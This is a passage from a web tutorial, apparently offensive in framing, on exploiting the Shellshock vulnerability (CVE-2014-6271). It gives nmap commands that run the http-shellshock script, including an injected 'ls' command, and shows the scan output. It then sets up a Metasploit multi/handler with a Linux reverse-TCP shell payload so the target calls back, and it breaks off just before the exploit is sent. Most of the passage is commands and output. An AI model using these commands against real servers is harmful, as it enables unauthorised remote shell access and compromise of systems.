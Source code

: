 ```html
nmap -sV -p- --script http-shellshock <target>
nmap -sV -p- --script http-shellshock --script-args uri=/cgi-bin/bin,cmd=ls <target>
```

**Output**

```html
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack
| http-shellshock:
|   VULNERABLE:
|   HTTP Shellshock vulnerability
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2014-6271
|       This web application might be affected by the vulnerability known as Shellshock. It seems the server
|       is executing commands injected via malicious HTTP headers.
|
|     Disclosure date: 2014-09-24
|     References:
|       http://www.openwall.com/lists/oss-security/2014/09/24/10
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7169
|       http://seclists.org/oss-sec/2014/q3/685
|       http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271
```

Once the vulnerability is discovered by the hacker, it can exploit it using Metasploit.

#### Create MSF Session

Once a potential flaw has been discovered in an environment, it can easily be exploited as demonstrated below. In order to open a session from our targeted website we will need to create an exploit multi-handler on our **Metasploit**. This can be done very quickly using the below commands.

```html
msfconsole
msf > use exploit/multi/handler
msf exploit(multi/handler) > set LHOST 0.0.0.0
msf exploit(multi/handler) > set LPORT 4444
msf exploit(multi/handler) > set PAYLOAD linux/x86/shell/reverse_tcp
msf exploit(multi/handler) > show options
```

**Output**

![exploit-shellshock-vulnerability-cve-2014-6271-using-metasploit](https://neoslab.com/uploads/medias/2021/10/exploit-shellshock-vulnerability-cve-2014-6271-using-metasploit-1.png "exploit-shellshock-vulnerability-cve-2014-6271-using-metasploit")

On the above example we are using a Linux X86 Shell Reverse TCP payload, off course the type of payload shall be different if we are targeting a Windows machine.

#### Exploit The Target

We are now going to send our exploit in order to create a reverse shell using a bash terminal and forward the traffic through the MSF handler using TCP protocol.
